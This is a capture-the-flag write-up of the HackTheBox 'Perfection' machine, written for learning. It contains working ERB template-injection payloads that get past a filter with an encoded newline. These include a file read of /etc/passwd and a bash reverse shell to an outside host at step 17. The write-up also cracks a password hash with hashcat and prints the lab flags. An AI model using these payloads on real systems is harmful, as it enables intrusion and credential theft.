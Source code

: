 # Perfection
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a25ccf1b-8041-48e5-9d09-020a945528ef)


## Lessons Learned:
- Exploiting WEBrick 1.7.0
- ERB and reverse shell using Ruby Code Execution.
- Identify potential passwords using hashcat (based on password format).

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC 10.10.11.253 --min-rate 1000                                           
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-17 20:39 PDT
Nmap scan report for perfection.htb (10.10.11.253)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
|_  256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.77 seconds
```

1. Based from the nmap results above, the machine runs a web application at port 80 and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/aa0e65bb-d7f4-4cef-ac2a-6f97fb41f177)


2. Scrolling down to the footer section, we identified the web server used is **WEBrick** which is a RUBY library.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/deb7b11b-a64a-47b2-a6b1-44b2819fb424)


3. Searching on the internet about vulns found in **WEBrick 1.7.0** resulting to none.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/29519086-e07e-46de-aae0-af2cfb55c438)


4. Scanning for subdomain and directories also resulting to none. However our interest should be at the **weight grade calculation** feature.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5e3e3123-8c34-4a6d-995e-0ecffda31a1c)


5. After sent normal input, seems it just calculate our grades normally. Nothing special at client-side.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2f3a453e-a418-47a1-90b7-9cff9ec31e83)


6. Tried to execute client-side attack, the webapp reflects us **Malicious Input Blocked**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/26e43bd2-e5a9-4a3a-8cf6-8e90ffccc596)


7. Let's use repeater for further testing.
8. The reflect message is caused because I input the malicious script/code at the **category** column.
9. This time I tried to send `;id ` but encode it with URL.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48782621-d8df-40c9-bce7-ecac7e8ee39c)


10. It's still blocked.
11. Let's try to send non-malicious URL encoded newline (\n) to test whether it executes encoded URL.

> Sending %0a

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a26e2d7d-7293-4982-866c-2a7258db9e99)


12. It executed, it's a finding then.
13. Great! Now our interest focused on finding the correct ruby command injection or SSTI payloads.
14. Long story short, found a repo which lists all the ruby code execution payloads.

#### NOTES:

```
I dropped all the useful links at the bottom of this MD file.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48adb320-33a2-449f-8675-753f5c0ee33c)

 
15. Nice, let's use the **read file** payload and encode it in URL format.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/10119366-43a3-4657-8968-73a25330e3a1)


> pwn%0a<%25%3d+File.open('/etc/passwd').read+%25>

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9c88067-33a6-4ddf-bb80-ee4ee3dee672)



#### NOTES:

```
%0a is needed, because it acts as a delimiter.
```

16. Amazing! Let's try to do reverse shell so it's easier for us to get the user flag.
17. This time let's use the system() code execution payload.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/85217040-bdf2-46d3-8b8f-ba80c927bbdb)


```txt
Bash Reverse Shell Payload:
bash -i >& /dev/tcp/10.10.14.24/1337 0>&1

Wrapped it with Ruby Code Execution Payload:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

URL ENCODE IT:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

FULL PAYLOAD:
pwn%0a<%25%3d+system("bash+-c+'exec+bash+-i+>%26+/dev/tcp/10.10.14.24/1337+0>%261'")+%25>
```

18. All we need to do now is set a listener on port 1337 then send the payload using repeater.

> RESULT - Got shell as Susan

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a38add66-1558-4a42-a107-6e53a39c4389)


> GETTING THE USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2fdd20de-cc5b-4577-a0e6-7cd3d12966f3)


## USER FLAG

```
69adddfe701657e656b754bc7b3801d5
```

19. Noticed there is a directory named **Migration**, inside it there's a DB file.
20. Let's exfiltrate it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/42b76616-2e24-4ece-be1c-57796d68e866)


21. In linux we can open it using **DB Browser**.
22. Found one table named **users**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/45d1b888-4f6f-472b-8d28-5b89ee6da68f)


> Found few creds inside it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7678f31-8e03-4568-b1e6-e25ad421ce93)


23. The simplest privesc is to crack the susan password's hash. However **john** and **hashcat** failed to crack it.
24. So I dropped linpeas to enumerate potential vuln that could lead to privesc.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d4734e0-37fe-4866-bb8c-7024ff50e240)


25. Interesting, Susan seems not part of any group listed.
26. After checking all the results, finally found what seems to be our interest.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1342053d-ac7f-4121-8814-9c3726b1af73)

> Inside /var/mail/susan

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0aac48f5-7ee1-4f83-891a-35f963b7591f)


27. GREAT! it's indeed our interest now.
28. Since it shows the password pattern, then we can use hashcat to helps us crack it.

```
The password format:
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

9 integers between 1 - 1.000.000.000 --> 2 - 999.999.999

RESULT:
susan_nasus_?d?d?d?d?d?d?d?d?d
```

29. Let's use hashcat.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/340119a0-5482-4896-b085-923dbcd8aebd)


30. Since it's identified as SHA-256 we can use **-m 1400**.

```
COMMAND:
hashcat -m 1400 susan_hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d

-m --> mode
-a --> aggresiveness.
```

> RESULT --> susan_nasus_413759210

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a83d3f4e-d997-43db-9483-89e2988ad5c9)


31. We are logged in as susan!

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d15beca-a460-4d68-9d8d-f92007759a46)


> GETTING ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7408524f-5211-4313-be86-c15d92aecaa2)


## ROOT FLAG

```
aa7afaa82e281910a726fd7ba1e0969a
```

## IMPORTANT LINKS

```
https://security.snyk.io/package/rubygems/webrick
https://portswigger.net/kb/issues/00100f00_ruby-code-injection
https://www.stackhawk.com/blog/command-injection-ruby/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
```
